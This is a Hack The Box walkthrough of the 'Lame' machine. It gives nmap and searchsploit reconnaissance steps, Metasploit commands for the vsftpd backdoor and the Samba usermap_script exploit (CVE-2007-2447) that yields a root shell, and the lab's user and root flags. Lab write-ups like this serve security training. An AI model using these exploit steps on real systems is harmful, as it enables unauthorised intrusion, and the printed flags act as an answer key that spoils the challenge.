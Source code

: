 [Lame](https://app.hackthebox.com/machines/1) | Cyanyde
=======================================================

 Lame is an easy Linux machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.

### How many of the nmap top 1000 TCP ports are open on the remote host?

<code>nmap \<target ip> --top-ports 1000</code> returns:

```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

> There are **4** of the top 1000 ports open on our target machine

### What version of VSFTPd is running on Lame?

<code>nmap -sV \<target ip></code> returns the service version running on each port:

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

> **vsftpd 2.3.4** is running on tcp port 21

### There is a famous backdoor in VSFTPd version 2.3.4, and a Metasploit module to exploit it. Does that exploit work here?

- <code>searchsploit vsftpd 2.3.4</code> shows us that there is a Backdoor Command Execution exploit with a Metasploit module associated with it
- Running `msfconsole` and using <code>search vsftpd 2.3.4</code> shows us that there is 1 module that matches our service version
    - `use 0` or `use exploit/unix/ftp/vsftpd_234_backdoor` will select this module from our search results
    - `show options` will show us the configurable options for this module
    - `set RHOSTS` to the target IP
    - *This module does not support check*
    - `run` or `exploit` to begin launch exploit
    - Returned error: `[*] Exploit completed, but no session was created.`

> vsFTPd backdoor exploit does not work on this host (**no**)

### What version of Samba is running on Lame? Give the numbers up to but not including "-Debian".

- Looking back at our `nmap -sV` results, specific Samba version is not listed
- We can use the `auxiliary/scanner/smb/smb_version` module in Metasploit to find our Samba version
    - `set RHOSTS` to target IP
    - `exploit` or `run` to start

> Our Metasploit module returns Samba **3.0.20**-Debian

### What 2007 CVE allows for remote code execution in this version of Samba via shell metacharacters involving the `SamrChangePassword` function when the "username map script" option is enabled in `smb.conf`?

- `searchsploit samba 3.0.20 -v -www` gives us a link to the [exploit](https://www.exploit-db.com/exploits/16320) on exploit-db.com

> This exploit is **CVE-2007-2447**

### Exploiting CVE-2007-2447 returns a shell as which user?

- Since we discovered a Metasploit module correlated to this CVE, we can leverage it to gain access
    - `search samba 3.0.20` within Metasploit and `use 0` since it is the first result or `use exploit/multi/samba/usermap_script`
    - `set RHOSTS` to target IP and `set RPORT` if necessary
    - `set LHOST` to attack machine IP or VPN IP
    - `run` or `exploit` to start
    - Command shell opened

> `whoami` returns *root*

### Submit the flag located in the makis user's home directory.

- `cd /home/makis` to change into makis' home directory
- `ls -a` to display all files within the directory

>  <details><summary><code>cat user.txt</code> to get the flag: </summary>4411c9e40952e55e551ddadb1ea91542</details>

### Submit the flag located in root's home directory.

- `cd /root` to change into root's directory
- `ls -a` to display all files within directory

>  <details><summary><code>cat root.txt</code> to get the flag: </summary>12814c6f2e2b78b128f42708d0619da9</details>

### Our initial nmap scan showed four open TCP ports. Running netstat -tnlp shows many more ports listening, including ones on 0.0.0.0 and the boxes external IP, so they should be accessible. What must be blocking connection to these ports?

> Since the ports listed (including the port that VSFTPd was running on) are open and listening, our connection to those ports are likely blocked by a **firewall**

### When the VSFTPd backdoor is trigger, what port starts listening?

- The box points to [this](https://www.exploit-db.com/exploits/49757) exploit

> The code uses the function `Telnet(host, 6200)` to open port **6200**
